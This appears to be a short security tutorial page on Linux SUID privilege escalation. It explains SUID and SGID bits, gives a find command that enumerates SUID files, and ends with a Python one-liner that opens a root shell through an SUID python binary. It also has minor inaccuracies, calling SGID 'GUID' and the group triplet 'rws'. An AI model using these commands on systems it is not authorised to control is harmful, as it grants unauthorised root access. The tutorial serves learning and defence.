

# SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.



For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><figcaption></figcaption></figure>

